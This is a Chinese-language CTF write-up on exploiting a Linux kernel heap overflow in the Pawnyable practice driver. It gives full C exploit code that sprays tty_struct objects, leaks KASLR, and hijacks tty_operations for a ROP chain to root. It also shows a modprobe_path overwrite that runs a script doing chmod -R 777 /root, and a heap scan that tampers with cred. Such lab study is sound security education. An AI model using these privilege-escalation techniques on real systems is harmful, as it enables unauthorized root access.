

## 前言
本篇博客为Pawnyable第二个专题——内核堆溢出漏洞的利用。

## 题目分析
这里我们直接保护全开：
```bash
#!/bin/sh
qemu-system-x86_64 \
    -m 64M \
    -nographic \
    -kernel bzImage \
    -append "console=ttyS0 loglevel=3 oops=panic panic=-1 pti=on kaslr" \
    -no-reboot \
    -cpu qemu64,+smap,+smep \
    -smp 1 \
    -monitor /dev/null \
    -initrd rootfs.cpio \
    -net nic,model=virtio \
    -net user
```
直接拖出vuln.ko逆向一下看看
相较于Pawnyable-01的附件仅有moudle-read和moudle-write有变化，返汇编代码如下：


可以看出这里最大的变化就是删掉了关于内核栈变量的使用，读写都是在内核堆上进行的，同样也有几乎任意size的越界读和越界写。

## 攻击思路
这里g_buf分配的堆块依旧是0x400大小，这里笔者介绍最为简单的一种攻击思路：
- 通过堆喷tty_struct结构体来实现g_buf与tty结构体相邻。
- 越界读泄露内核基址以及内核堆地址
- 越界写劫持tty_operations虚表，此处劫持内核程序流为栈迁移的rop，将内核栈迁移至内核堆上
- 由于内核堆地址可控，在g_buf上布置rop链实现提权

完整攻击脚本：
```C
/**
 * @file exp.c
 * @author keyboard (keyboardhitsz@163.com)
 * @brief keyboard's kernel pwn exp
 * @version 0.0
 * @date 2025-11-27
 * 
 * @copyright Copyright (c) 2025 keyboard
 * 
 */
# include</home/keyboard/ctf/tricks/kernelpwn.h>

#define SUCCESS_MSG(msg)    "\033[32m\033[1m" msg "\033[0m"
#define INFO_MSG(msg)       "\033[34m\033[1m" msg "\033[0m"
#define ERROR_MSG(msg)      "\033[31m\033[1m" msg "\033[0m"

#define log_success(msg)    puts(SUCCESS_MSG(msg))
#define log_info(msg)       puts(INFO_MSG(msg))
#define log_error(msg)      puts(ERROR_MSG(msg))

size_t prepare_kernel_cred,commit_creds;
/**
 * Utils 
 */
void get_kallsyms_addr(){

    FILE* sym_table_fd = fopen("/proc/kallsyms", "r");
    if(sym_table_fd < 0)
    {
        printf("\033[31m\033[1m[x] Failed to open the sym_table file!\033[0m\n");
        exit(-1);
    }
    char buf[0x50], type[0x10];
    size_t addr;
    while(fscanf(sym_table_fd, "%llx%s%s", &addr, type, buf))
    {
        if(prepare_kernel_cred && commit_creds)
            break;

        if(!commit_creds && !strcmp(buf, "commit_creds"))
        {
            commit_creds = addr;
            printf("\033[32m\033[1m[+] Successful to get the addr of commit_cread:\033[0m%llx\n", commit_creds);
            continue;
        }

        if(!strcmp(buf, "prepare_kernel_cred"))
        {
            prepare_kernel_cred = addr;
            printf("\033[32m\033[1m[+] Successful to get the addr of prepare_kernel_cred:\033[0m%llx\n", prepare_kernel_cred);
            continue;
        }
    }
}


/**
 * Challenge Interface
**/


/**
 * Exploitation
**/

void exploitation(void){

    save_status();
    int tty_spary[100];
    for(int i=0;i<50;i++){
        tty_spary[i] = open("/dev/ptmx",O_RDONLY|O_NOCTTY);
        if(tty_spary[i]==-1){
            log_error("error tty spray");
        }
    }
    int fd;
    fd = open("/dev/holstein",O_RDWR);
    if(fd==-1){
        log_error("error open fd");
    }
    for(int i=50;i<100;i++){
        tty_spary[i] = open("/dev/ptmx",O_RDONLY|O_NOCTTY);
        if(tty_spary[i]==-1){
            log_error("error tty spray");
        }
    }

    char buf[0x500];
    read(fd,buf,0x500);
    prepare_kernel_cred = 0xffffffff81074650;
    commit_creds = 0xffffffff810744b0;
    size_t heap_leak_vmlinux = commit_creds+0xffffffff9ae38880-0xffffffff9a2744b0;
    kernel_offset = *(size_t*)(buf+0x418)-heap_leak_vmlinux;
    kernel_base += kernel_offset;
    printf("kernel base is :%p\n",kernel_base);
    commit_creds += kernel_offset;
    prepare_kernel_cred += kernel_offset;

    size_t push_rdx_pop_rsp_r13_rbp = kernel_offset+0xffffffff813a478a;
    size_t pop_rdi = kernel_offset+0xffffffff810d748d;
    size_t mov_rdi_rax_rep = kernel_offset+0xffffffff8162707b;
    size_t pop_rcx = kernel_offset+0xffffffff8113c1c4;
    size_t swapgs_restore_regs_and_return_to_usermode = kernel_offset+0xffffffff81800e10+0x16;

    size_t g_buf = *(size_t*)(buf+0x438)-0x438;
    printf("g_buf is %p\n",g_buf);

    size_t * tty_optr= &buf[0x400];
    tty_optr[12] = push_rdx_pop_rsp_r13_rbp;
    tty_optr[3] = g_buf+0x400;

    size_t * rop = buf;
    *rop++ = pop_rdi;
    *rop++ = 0;
    *rop++ = prepare_kernel_cred;
    *rop++ = pop_rcx;
    *rop++ = 0;
    *rop++ = mov_rdi_rax_rep;
    *rop++ = commit_creds;
    *rop++ = swapgs_restore_regs_and_return_to_usermode;
    *rop++ = *(size_t*) "keyboard";
    *rop++ = *(size_t*) "keyboard";
    *rop++ = (size_t)get_root_shell;
    *rop++ = user_cs;
    *rop++ = user_rflags;
    *rop++ = user_sp+0x8;
    *rop++ = user_ss;

    write(fd,buf,0x500);
    for(int i=0;i<100;i++){
        ioctl(tty_spary[i],0xaaaaaaaa,g_buf-0x10);
    }

}

/**
 * Main Function
 */
int main(int argc, char ** argv)
{
    exploitation();
    return 0;   /* never arrive here... */
}
```
此方法最好想，但是其中使用到了比较复杂的gadget。除此之外，作者在原项目中还提到了两种额外的利用手法：

- 寻找gadgte构造任意内核地址读写，覆写modprobe_path以及在内存中寻找cred来直接修改提权，这两种方法也很值得学习，笔者稍晚更新至本篇博客下。 

## modprobe_path 劫持
这是pawnyable 作者给出的第二种方法，即劫持modprob_path。其核心原理为：在Linux尝试运行一个未知处理程序的可执行文件时，即一个非法的可执行文件，会触发一个特殊的执行：即内核的modprobe_path字符串所指向的文件，默认是/sbin/modprobe，这个执行是内核权限执行的，并且modprobe_path字符串的内容是可写的，如果我们可以构造内核空间任意地址写去劫持这个路径，我们就可以以特权权限执行任何shell文件，一般的步骤如下：
```C
  system("echo -e '#!/bin/sh\nchmod -R 777 /root' > /tmp/evil.sh");
  system("chmod +x /tmp/evil.sh");
  system("echo -e '\xde\xad\xbe\xef' > /tmp/pwn");
  system("chmod +x /tmp/pwn");
  system("/tmp/pwn");
```
在此题目中我们通过劫持tty结构体的虚表指针，相当于rip寄存器的劫持，配合下面的gadget即可任意地址读写：
```C
0xffffffff810477f7: mov [rdx], rcx; ret;--rdx和rcx均为我们可控的ioctl参数，可控，实现任意地址写
0xffffffff8118a285: mov eax, [rdx]; ret;--借助ioctl返回值实现任意地址读
```
最终攻击脚本：
```C
/**
 * @file exp.c
 * @author keyboard (keyboardhitsz@163.com)
 * @brief keyboard's kernel pwn exp
 * @version 0.0
 * @date 2025-11-27
 * 
 * @copyright Copyright (c) 2025 keyboard
 * 
 */
# include</home/keyboard/ctf/tricks/kernelpwn.h>

#define SUCCESS_MSG(msg)    "\033[32m\033[1m" msg "\033[0m"
#define INFO_MSG(msg)       "\033[34m\033[1m" msg "\033[0m"
#define ERROR_MSG(msg)      "\033[31m\033[1m" msg "\033[0m"

#define log_success(msg)    puts(SUCCESS_MSG(msg))
#define log_info(msg)       puts(INFO_MSG(msg))
#define log_error(msg)      puts(ERROR_MSG(msg))

size_t prepare_kernel_cred,commit_creds;
/**
 * Utils 
 */
void get_kallsyms_addr(){

    FILE* sym_table_fd = fopen("/proc/kallsyms", "r");
    if(sym_table_fd < 0)
    {
        printf("\033[31m\033[1m[x] Failed to open the sym_table file!\033[0m\n");
        exit(-1);
    }
    char buf[0x50], type[0x10];
    size_t addr;
    while(fscanf(sym_table_fd, "%llx%s%s", &addr, type, buf))
    {
        if(prepare_kernel_cred && commit_creds)
            break;

        if(!commit_creds && !strcmp(buf, "commit_creds"))
        {
            commit_creds = addr;
            printf("\033[32m\033[1m[+] Successful to get the addr of commit_cread:\033[0m%llx\n", commit_creds);
            continue;
        }

        if(!strcmp(buf, "prepare_kernel_cred"))
        {
            prepare_kernel_cred = addr;
            printf("\033[32m\033[1m[+] Successful to get the addr of prepare_kernel_cred:\033[0m%llx\n", prepare_kernel_cred);
            continue;
        }
    }
}


/**
 * Challenge Interface
**/


/**
 * Exploitation
**/
char buf[0x600];
int tty_spary[100];
int fd;
size_t g_buf;
void aaw(size_t addr, unsigned int val,size_t magic){

    
    size_t * tty_optr= &buf;
    tty_optr[12] = magic;
    *(unsigned long*)&buf[0x418] = g_buf;

    write(fd,buf,0x500);
    for(int i=0;i<100;i++){
        ioctl(tty_spary[i],val,addr);
    }
}
int aar_idx=0;
void aar(size_t addr){
    size_t mov_eax_rdx = kernel_offset+0xffffffff8118a285;
    size_t * tty_optr= &buf[0x400];
    tty_optr[12] = mov_eax_rdx;
    tty_optr[3] = g_buf+0x400;
    unsigned int res=0;

    write(fd,buf,0x500);
    for(int i=0;i<100;i++){
        res = ioctl(tty_spary[i],0xdeadbeef,addr);
        if(!memcmp(&res,"/sbi",4) && aar_idx==0){
            aar_idx=i;
        }
    }
    res = ioctl(tty_spary[aar_idx],0xaaaaaaaa,addr);
    printf("res is %4s\n",&res);
    res = ioctl(tty_spary[aar_idx],0xaaaaaaaa,addr+4);
    printf("res is %4s\n",&res);
    res = ioctl(tty_spary[aar_idx],0xaaaaaaaa,addr+8);
    printf("res is %4s\n",&res);
}
void exploitation(void){

    // save_status();

    for(int i=0;i<50;i++){
        tty_spary[i] = open("/dev/ptmx",O_RDONLY|O_NOCTTY);
        if(tty_spary[i]==-1){
            log_error("error tty spray");
        }
    }

    fd = open("/dev/holstein",O_RDWR);
    if(fd==-1){
        log_error("error open fd");
    }
    for(int i=50;i<100;i++){
        tty_spary[i] = open("/dev/ptmx",O_RDONLY|O_NOCTTY);
        if(tty_spary[i]==-1){
            log_error("error tty spray");
        }
    }

    
    read(fd,buf,0x500);
    prepare_kernel_cred = 0xffffffff81074650;
    commit_creds = 0xffffffff810744b0;
    size_t heap_leak_vmlinux = commit_creds+0xffffffff9ae38880-0xffffffff9a2744b0;
    kernel_offset = *(size_t*)(buf+0x418)-heap_leak_vmlinux;
    kernel_base += kernel_offset;
    printf("kernel base is :%p\n",kernel_base);
    commit_creds += kernel_offset;
    prepare_kernel_cred += kernel_offset;

    size_t modprobe_path = kernel_offset+ 0xffffffff81e38180;
    size_t mov_rdx_rcx = kernel_offset+0xffffffff810477f7;


    g_buf = *(size_t*)(buf+0x438)-0x438;
    printf("g_buf is %p\n",g_buf);

    char evil_path[]="/tmp/evil.sh";
    for(int i=0;i<sizeof(evil_path);i+=4){
        aaw(modprobe_path+i,*(unsigned int *)&evil_path[i],mov_rdx_rcx);
    }

  system("echo -e '#!/bin/sh\nchmod -R 777 /root' > /tmp/evil.sh");
  system("chmod +x /tmp/evil.sh");
  system("echo -e '\xde\xad\xbe\xef' > /tmp/pwn");
  system("chmod +x /tmp/pwn");
  system("/tmp/pwn"); // modprobe_pathの呼び出し

}

/**
 * Main Function
 */
int main(int argc, char ** argv)
{
    exploitation();
    return 0;   /* never arrive here... */
}
```
值得一提的是笔者最初与原作者不同，在劫持tty虚表指针时，将虚表伪造在tty结构体起始地址，结果在攻击时报错：
```C
Call Trace:

 ? tty_release+0x12a/0x450

 __fput+0x89/0x250

 ____fput+0x9/0x10

 task_work_run+0x61/0xa0

 do_exit+0x2dd/0x930

 do_group_exit+0x36/0xa0

 __x64_sys_exit_group+0x13/0x20

 do_syscall_64+0x43/0x90

 entry_SYSCALL_64_after_hwframe+0x44/0xae
```
有这样一个backtrace，因为攻击与之前使用krop不同，之前的程序流以及落回用户态的过程全部被我们劫持手动实现，而本方法中我们需要让ioctl正常执行完，自己落回用户态，而我们攻击脚本最终是要执行完，修改root目录权限，而不是起一个root的shell，也就是说我们的exp脚本是要完整执行完成再退出的，退出时调用exit，回收所有打开的文件，包括我们的tty结构体，在release时取到了错误的虚表指针就panic啦！

## cred结构体篡改

task_struct结构体是分配在堆上的，在我们有任意地址读写原语时可以暴力搜索内核堆空间，寻找task_struct结构体，直接篡改cred结构体内容来实现提权。

借助task_cred结构体中的comm变量——当前进程名，来定位task_struct
```C
    size_t tmp = g_buf-0x1000000,cred_addr;
    while(1){
        tmp +=8;
        if ((tmp & 0xfffff) == 0){
            printf("searching... 0x%016lx\n", tmp);
        }
        if(aar(tmp+4)==0x6472616f&& aar(tmp)==0x6279656b){
            log_success("commm found!");
            break;
        }
    }
    tmp-=0x10;
    cred_addr |= aar(tmp);
    cred_addr |= aar(tmp+4)<<32;
    printf("cred_addr is %p\n",cred_addr); 
```
之后用任意地址写直接篡改cred结构体内容即可完成提权。